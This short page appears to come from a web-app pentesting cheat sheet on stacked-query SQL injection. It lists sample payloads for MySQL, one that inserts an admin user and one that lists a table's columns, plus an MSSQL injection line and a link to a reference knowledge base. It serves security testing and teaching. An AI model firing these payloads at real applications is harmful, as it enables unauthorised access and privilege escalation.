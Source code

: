 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - sql-injection
---
```

# Stacked Queries

## MySQL

```
SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username, password, priv) VALUES ('BobbyTables', 'kl20da$$','admin');
SELECT * FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;
```

## MSSQL

```
' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)